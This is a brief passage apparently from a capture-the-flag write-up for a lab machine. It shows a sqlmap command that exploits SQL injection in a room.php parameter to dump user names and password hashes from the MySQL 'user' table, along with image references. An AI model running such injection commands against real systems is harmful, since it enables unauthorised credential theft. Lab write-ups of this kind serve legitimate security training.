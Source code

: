 ![](images/room-tables.png)

So in `mysql` DB I found a table named `user` and in that I got a hash.

```bash
$ sqlmap -u http://10.10.10.143/room.php?cod=1 --random-agent -D mysql --tables -T "user" -C User,Password --dump --thread 5
```

![](images/hash.png)
